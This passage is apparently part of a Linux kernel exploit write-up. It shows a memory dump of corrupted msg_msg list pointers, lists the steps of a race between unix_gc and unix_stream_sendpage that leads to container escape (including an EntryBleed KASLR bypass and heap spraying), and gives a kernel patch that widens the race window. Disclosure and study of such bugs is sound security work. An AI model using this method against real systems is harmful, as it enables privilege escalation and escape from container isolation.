 If we choose (0xffff8880082e2400+2-0x10) as our skb_frag_t, after return from function `__skb_fill_page_desc_noacc`, the above memory layout will become as follow
```
0xffff8880082e2380:     0xffff888008705080      0xffff888007ebf680 //m_list.next m_list.prev
0xffff8880082e2390:     0x000000000000008b      0x0000000000000050 //m_type m_ts
0xffff8880082e23a0:     0x0000000000000000      0x0000000000000000 //next security
0xffff8880082e23b0:     0x0000000000000408      0x0000000000000000 //data
0xffff8880082e23c0:     0x0000001000000000      0x0000000000000000
0xffff8880082e23d0:     0x0000000000000000      0x0000000000000000
0xffff8880082e23e0:     0x0000000000000000      0x0000000000000000
0xffff8880082e23f0:     0xea00001223400000      0x000000001000ffff
0xffff8880082e2400:     0xffff888008700000      0xffff888007ebf800 //m_list.next m_list.prev
0xffff8880082e2410:     0x000000000000008b      0x0000000000000050 //m_type m_ts
0xffff8880082e2420:     0x0000000000000000      0x0000000000000000 //next security
0xffff8880082e2430:     0x0000000000000412      0x0000000000000000 //data
0xffff8880082e2440:     0x0000001000000000      0x0000000000000000
0xffff8880082e2450:     0x0000000000000000      0x0000000000000000
0xffff8880082e2460:     0x0000000000000000      0x0000000000000000
0xffff8880082e2470:     0x0000000000000000      0x0000000000000000
```

m_list.next first two byte has been overwrite to null byte and make it point to another msg_msg.
With two msg_msg->m_list.next point to same address, we can use known exploit tech to achieve container escape.


# Exploit Tech Detail

The exploit is consist in the following steps
* EntryBleed: Breaking KASLR under KPTI with Prefetch (CVE-2022-4543)
* Prepare timerfd
* Spray large amount msg_msg
* Prepare refcount circle to make unix_gc free skbs
* Race between unix_gc with unix_stream_sendpage
* Reclaim SKB with pipe page buffer
* msg_msg exploit technique
* Achieve container escape.

The most unreliable and hard to success is at `Race between unix_gc with unix_stream_sendpage`.
Because lack of the information to set timeout at right place in nanoseconds, we tried value from 200 ~ 4096.
Depend on how lucky we are we might be hit the right place within few minutes or keep fail after half hour.
To trigger vulns more easily, we recommend to patch the following code to linux kernel.

```diff
diff --git a/net/unix/af_unix.c b/net/unix/af_unix.c
index 5b19b6c53..3bdc0aa94 100644
--- a/net/unix/af_unix.c
+++ b/net/unix/af_unix.c
@@ -2347,7 +2347,7 @@ static ssize_t unix_stream_sendpage(struct socket *socket, struct page *page,
                consume_skb(newskb);
                newskb = NULL;
        }
-
+       mdelay(10);
        if (skb_append_pagefrags(skb, page, offset, size)) {
                tail = skb;
                goto alloc_skb;
```
